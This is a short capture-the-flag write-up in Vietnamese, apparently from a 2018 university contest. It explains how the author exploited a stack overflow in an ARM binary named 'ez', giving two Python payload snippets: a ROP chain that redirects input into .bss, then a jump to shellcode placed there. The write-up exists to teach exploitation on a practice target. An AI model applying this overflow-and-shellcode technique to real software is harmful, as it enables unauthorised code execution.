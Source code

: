 Đề cho ta file **ez** ARM</br>
![image](https://user-images.githubusercontent.com/23306492/40377949-5ffd91d4-5e1c-11e8-9387-96e85cce524d.png)</br>
disable toàn bộ</br>
![image](https://user-images.githubusercontent.com/23306492/40377995-7dfa49a2-5e1c-11e8-9bd7-c8fe8c856715.png)</br>
Hàm `main` ta thấy lỗi ở đây là stack overflow</br>
![image](https://user-images.githubusercontent.com/23306492/40378321-6b083c36-5e1d-11e8-8719-0709df31c667.png)
</br>
Với bài này ta cần ghi shellcode và jump về địa chỉ shellcode</br>
Trước tiên ta cần ROP để có thể input vào bss</br>
```
pop_r3_pc = 0x102f0
bss = 0x21028
main = 0x10421
payload = 'A'*20
payload += p32(bss)
payload += p32(pop_r3_pc)
payload += p32(bss)
payload += p32(main)
r.sendline(payload)
````
 Sau đó quay trở lại `mov  R1,R3`và input lại lần 2 để có thể jump đến shellcode_address</br>
![image](https://user-images.githubusercontent.com/23306492/40378386-966751e6-5e1d-11e8-873e-ce9ef22351b8.png)</br>
```
payload = 'A'*28
payload += p32(bss+0x20)
payload += shellcode
r.sendline(payload)
```
[payload](https://github.com/k4k4/UIT_Contest-2018/blob/master/ez/ez.py)</br>
![image](https://user-images.githubusercontent.com/23306492/40378289-4eece8d0-5e1d-11e8-8cef-2e473f5e03f5.png)</br>
mọi người có thể tham khảo tại [link](https://github.com/Billy-Ellis/Exploit-Challenges)
